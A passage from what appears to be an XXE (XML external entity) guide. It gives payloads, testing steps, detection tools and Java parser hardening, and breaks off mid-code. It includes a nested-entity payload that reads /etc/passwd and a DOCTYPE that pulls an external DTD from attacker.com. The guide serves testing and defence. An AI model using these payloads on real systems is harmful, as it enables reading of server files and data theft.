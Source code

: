  - **Nested entities and indirection**
    - Combining multiple entities to obfuscate:
      ```xml
      <!DOCTYPE foo [
        <!ENTITY % a "fil">
        <!ENTITY % b "e:">
        <!ENTITY % c "///etc/passwd">
        <!ENTITY % d "%a;%b;%c;">
        <!ENTITY % e "<!ENTITY xxe SYSTEM '%d;'>">
        %e;
      ]>
      ```
  
  - **Custom DTD hosting**
    - External DTD with attack payload:
      ```xml
      <!DOCTYPE foo [
        <!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
        %dtd;
      ]>
      ```
    - Allows more complex attacks while keeping main payload simple

- **Testing methodology for XXE**
  
  - **Manual testing approach**
    - Identify XML processing endpoints
    - Test basic entity injection
    - Try various payload placement locations
    - Attempt blind XXE techniques
    - Test different encodings
    - Try alternative protocols (file, http, php, etc.)
  
  - **Using tools for XXE detection**
    - Burp Suite Professional scanner
    - OWASP ZAP Active Scanner
    - XXEinjector
    - PayloadsAllTheThings XXE repository
  
  - **Common indicators of vulnerability**
    - XML parsing errors in responses
    - Content of targeted files appears in responses
    - Server makes outbound connections to attacker-controlled domains
    - Delayed responses when using time-based payloads

- **Prevention and mitigation**
  
  - **Configure XML parsers securely**
    - Disable external entities and DTD processing
      - Java:
        ```java
        // For DocumentBuilderFactory
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        